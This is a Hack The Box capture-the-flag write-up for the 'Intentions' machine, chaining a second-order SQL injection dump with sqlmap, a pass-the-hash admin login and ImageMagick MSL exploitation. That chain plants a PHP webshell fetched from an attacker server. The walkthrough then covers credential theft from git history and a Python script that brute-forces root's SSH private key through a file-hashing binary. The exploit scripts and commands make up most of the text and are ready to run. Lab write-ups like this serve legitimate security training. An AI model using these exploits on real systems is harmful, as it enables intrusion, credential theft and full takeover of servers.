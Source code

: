 # Hack The Box - Intentions by StuckAt

There is a second order sql injection that allows us to dump the database.
To abuse it register an account and login.
We need two requests for sqlmap.
First go to "Your Profile" and update "Favorite Genres" to get a request to /api/v1/gallery/user/genres. Use Burp's "Copy to File" and save it as "user-genres.req"
Second go to "Your Feed" and save the request to "/api/v1/gallery/user/feed" same as before as "user-feed.req"

After this we can use sqlmap to dump the database like so:
```sqlmap -r user-genres.req --second-req user-feed.req --batch --level=5 --risk=3 --tamper=space2comment -D intentions -T users -C admin,email,password --where "admin=1" --dump```

With this you should get email and password for admin users.

From /js/admin.js, we can see this:
```
Hey team, I've deployed the v2 API to production and have started using it in the admin section.
Let me know if you spot any bugs.
This will be a major security upgrade for our users, passwords no longer need to be transmitted to the server in clear text!
By hashing the password client side there is no risk to our users as BCrypt is basically uncrackable.
This should take care of the concerns raised by our users regarding our lack of HTTPS connection.```
```
So, we can use the v2 of api to login with the hash we got by making a request to "/api/v2/auth/login" with json like this:
{"email":"","hash":""}

This allows us to login as admin and access to /admin and /api/v2/admin/image/modify

At this point we can get rce with the technique from here: https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

I wrote a python script for it:
First, create our payload png: ```convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' lol.png```
Second, start a http-server to serve the said png.
After that, update the local_url, target_url, admin_email, admin_hash on the script and run it.
This should get you rce as www-data.

```python
#!/usr/bin/env python3

import requests
import threading
import base64

local_url = "http://<local_ip:port>"
target_url = "http://<target_ip>"
admin_email = "<admin_email>"
admin_hash = "<admin_hash>"

login_url = target_url + "/api/v2/auth/login"
json = {"email":admin_email,"hash":admin_hash}
s = requests.session()
s.post(login_url, json=json)

msl_file = f'''<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="{local_url}/lol.png" />
<write filename="/var/www/html/intentions/public/lol.php" />
</image>'''

files = {"lol":("lol.msl", msl_file)}
def create_msl_on_temp():
    url = target_url + "/api/v2/admin/image/modify"
    s.post(url, files=files)

json = {
    'path': 'vid:msl:/tmp/php*',
    'effect': 'lol'
}
def try_include():
    url = target_url + "/api/v2/admin/image/modify"
    s.post(url, json=json)

threads = []
for i in range(30):
	threads.append(threading.Thread(target=create_msl_on_temp))
	threads.append(threading.Thread(target=try_include))

for t in threads:
	t.start()
for t in threads:
	t.join()

while True:
	try:
		cmd = input("cmd> ")
		cmd = base64.b64encode(cmd.rstrip().encode()).decode()
		data = {
	    	"a":f"""system("echo {cmd} | base64 -d | bash");"""
		}
		payload_url = target_url + "/lol.php"
		r = requests.post(payload_url, data=data)
		print(r.text.split("Copyright")[1].encode().split(b"\n6\x11\xef\xbf")[0].decode())
	except KeyboardInterrupt:
		exit(0)
```

For www-data to greg:
There is a git repo at /var/www/html/intentions/.git
Tar and download it.

With ```git log``` we see this commit:

commit f7c903a54cacc4b8f27e00dbf5b0eae4c16c3bb4
Author: greg <greg@intentions.htb>
Date:   Thu Jan 26 09:21:52 2023 +0100

    Test cases did not work on steve's local database, switching to user factory per his advice

Checking it with ```git show f7c903a54cacc4b8f27e00dbf5b0eae4c16c3bb4```, we get creds for greg, which we can use for ssh.

For greg to root:

We see that greg is member of the scanner group, thus can run the /opt/scanner/scanner

This binary has ```cap_dac_read_search=ep``` capability so it can read any file.
```
greg@intentions:~$ getcap /opt/scanner/scanner 
/opt/scanner/scanner cap_dac_read_search=ep
```

Running it we get the help for it.
It hashes a file we provide with -c and compares it to the hash we provided with -s, also if we use the -p flag for the DEBUG, it gives us the hash of the file we provided.

```/opt/scanner/scanner -c /etc/passwd -s 5d41402abc4b2a76b9719d911017c592 -p```
[DEBUG] /etc/passwd has hash 0f1e356b6447c11283c68a0c6b904270

One interesting flag we can use is:
``` 
-l int
        Maximum bytes of files being checked to hash. Files smaller than this value will be fully hashed. Smaller values are much faster but prone to false positives. (default 500)
```

Which allows us to hash a file by starting with one byte and adding one byte at a time, thus allowing us to brute-force the contents of the file.

I also wrote a python script for it that allows us to read any file:
```python
#!/usr/bin/env python3

import hashlib
import os
import string

file_to_brute = "/root/.ssh/id_rsa"
charset = string.printable
current_read = ""

def find_char(temp_hash):
    for i in charset:
        test_data = current_read + i
        current_hash = hashlib.md5(test_data.encode()).hexdigest()
        if temp_hash == current_hash:
            return i
    return None

def get_hash(i):
    temp_hash = os.popen(f"/opt/scanner/scanner -c {file_to_brute} -s 5d41402abc4b2a76b9719d911017c592 -p -l {i}").read().split(" ")[-1].rstrip()
    return temp_hash

i = 1
while True:
    temp_hash = get_hash(i)
    new_char = find_char(temp_hash)
    if not new_char:
        break
    else:
        current_read += new_char
        i += 1
print(current_read)
```

Running it on the box we get the ssh key and login as root.